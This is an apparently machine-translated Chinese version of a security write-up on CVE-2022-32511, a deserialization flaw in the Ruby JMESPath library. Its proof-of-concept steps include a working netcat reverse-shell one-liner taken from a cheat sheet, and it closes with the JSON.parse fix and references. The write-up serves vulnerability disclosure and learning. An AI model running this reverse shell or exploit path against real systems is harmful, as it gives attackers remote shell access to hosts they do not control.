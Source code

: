 # CVE-2022–32511 |漏洞利用|远程代码执行

> 原文：<https://infosecwriteups.com/cve-2022-32511-exploit-remote-code-execution-daeffdc94219?source=collection_archive---------0----------------------->

# 描述:

由于使用了`JSON.load`，此软件包的受影响版本容易受到不受信任数据的反序列化的攻击，这在与不受信任的输入一起使用时被认为是不安全的。

# 概念验证

1.  为了重现安装“JMESPath 1.6.0”或之前版本时首先需要的步骤:

![](img/cc550287e96a831cf671bc8867ff86c0.png)

2.用下面提到的命令导入库火'**交互红宝石外壳'**:

```
irb 
```

3.如果您没有安装“irb ”,请使用以下命令下载:

```
gem install irb
```

4.选择想要的有效载荷，我已经从[按钮](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)中选择了一个

![](img/69344b73694e4aa259a327ef71657655.png)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 'IP' 1234 >/tmp/f
```

5.最后，导入易受攻击的“JMESPath”库，并提供有效负载来执行反向 shell:

![](img/401f3c4ee50a42dd71e48c9a2907a8fb.png)

# 结论

建议使用`JSON.parse`而不是`JSON.load.`，在这种情况下，我们观察到`JSON.load`无法验证输入数据，从而导致远程代码执行。

# 参考

[](https://nvd.nist.gov/vuln/detail/CVE-2022-32511) [## NVD

### 自 NVD 上次分析以来，此漏洞已被修改。正在等待重新分析，这可能会导致…

nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2022-32511)  [## jmespath | CVE 中不可信数据的反序列化-2022-32511 | Snyk

### 您的应用程序使用这个易受攻击的包吗？只需点击几下鼠标，我们就可以分析您的整个应用程序，并了解…

security.snyk.io](https://security.snyk.io/vuln/SNYK-RUBY-JMESPATH-2859799) [](https://github.com/jmespath/jmespath.rb/compare/v1.6.0...v1.6.1) [## 比较 1.6.0 版...1.6.1 版 jme path/jme path . Rb

### 此时您不能执行该操作。您已使用另一个标签页或窗口登录。您已在另一个选项卡中注销，或者…

github.com](https://github.com/jmespath/jmespath.rb/compare/v1.6.0...v1.6.1)